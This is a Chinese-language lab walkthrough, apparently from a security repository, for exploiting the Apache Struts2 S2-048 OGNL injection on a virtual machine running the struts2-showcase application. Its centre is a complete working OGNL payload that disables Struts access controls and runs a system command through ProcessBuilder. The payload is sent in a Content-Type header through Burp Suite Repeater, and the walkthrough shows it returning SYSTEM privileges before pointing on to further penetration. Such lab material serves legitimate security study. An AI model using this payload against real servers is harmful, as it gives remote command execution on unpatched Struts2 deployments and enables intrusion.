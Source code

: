 # structs-048漏洞利用过程

##一、查看虚拟机ip
在cmd中中输入ipconfig查看虚拟机IP，如下图中的192.168.226.133
![Alt text](/img/struts-1.png)

##二、访问页面
虚拟机已经配置Tomcat服务开机自启动，在本机访问页面http://*.*.*.*:8080/struts2-showcase/integration/editGangster.action，其中*.*.*.*替换为虚拟机IP地址，页面如下图所示
![Alt text](/img/struts-2.png)

##三、漏洞简单验证
在Gangster Name输入${2+3}
![Alt text](/img/struts-3.png)
![Alt text](/img/struts-4.png)

成功执行
##四、poc

    %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

填写表单在Burpsuite中进行抓包，如图所示：
![Alt text](/img/struts-5.png)

接下来进行Repeater重放，点击右键，选择send to reprater ，发送过去后将Content-Type修改为POC
![Alt text](/img/struts-6.png)

点击go，可以看到，已经成功执行命令，显示出当前的用户权限为system
![Alt text](/img/struts-7.png)

之后就可以进行下一步的继续渗透测试。

